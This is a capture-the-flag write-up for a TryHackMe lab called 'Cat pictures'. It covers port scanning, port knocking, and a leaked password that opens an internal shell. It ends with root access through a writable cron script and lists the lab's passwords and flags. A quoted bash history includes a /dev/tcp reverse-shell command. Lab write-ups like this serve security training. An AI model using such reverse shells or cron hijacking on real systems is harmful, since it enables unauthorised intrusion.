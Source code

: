 ```yaml
---
title: Test Writeup - Cat pictures
date: 2021-06-14 19:44:00 +05:30
modified: 2021-06-15 19:44:00 +05:30
tags: [writeups]
description: Writeup for THM - Cat pictures
---
```


---
### Enumeration

#### NMAP scan

```bash
PORT     STATE    SERVICE    REASON              VERSION
21/tcp   filtered ftp        port-unreach ttl 63
22/tcp   open     ssh        syn-ack ttl 63      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIDEV5ShmazmTw/1A6+19Bz9t3Aa669UOdJ6wf+mcv3vvJmh6gC8V8J58nisEufW0xnT69hRkbqrRbASQ8IrvNS8vNURpaA0cycHDntKA17ukX0HMO7AS6X8uHfIFZwTck5v6tLAyHlgBh21S+wOEqnANSms64VcSUma7fgUCKeyJd5lnDuQ9gCnvWh4VxSNoW8MdV64sOVLkyuwd0FUTiGctjTMyt0dYqIUnTkMgDLRB77faZnMq768R2x6bWWb98taMT93FKIfjTjGHV/bYsd/K+M6an6608wMbMbWz0pa0pB5Y9k4soznGUPO7mFa0n64w6ywS7wctcKngNVg3H
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCs+ZcCT7Bj2uaY3QWJFO4+e3ndWR1cDquYmCNAcfOTH4L7lBiq1VbJ7Pr7XO921FXWL05bAtlvY1sqcQT6W43Y=
|   256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGq9I/445X/oJstLHIcIruYVdW4KqIFZks9fygfPkkPq
8080/tcp filtered http-proxy no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


-------

### Foothold 

- site on port 8080 : ![img](./Pasted%20image%2020210605101307.png)
- link : http://10.10.23.106:8080/viewtopic.php?f=2&t=2 ![img](./Pasted%20image%2020210605101424.png)
- a hint for port knocking(?)
- lets try it out : https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html
- after port knocking twice got access to FTP
```bash
knock $IP 1111 2222 3333 4444
```
- got a `note.txt`:

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```
- and connecting to it via nc on `4420` with the gn passwd we have a limited shell
![img](./Pasted%20image%2020210605102030.png)
- since `cd` was not available got a reverse shell working
- `strings` was not there so used `cat`:

```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```
- using the passwd : `rebecca`
- and it works!!

----

### Privesc

- `.bash_history`:

```bash
root@7546fa2336d6:/# cat .bash_history 
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh 
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
cat /var/log/dpkg.log 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
exit
exit
exit
```
- so its probably a cron job
- put a simple bash rev shell in that as we are root and we can write to it
- got a rev shell... ROOTED!!! 

-----

### Creds

1. sardinethecat -> internal shell
2. rebecca : runme script

-----

### Flags

1. User flag => `7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9`
2. Root flag => `4a98e43d78bab283938a06f38d2ca3a3c53f0476`

----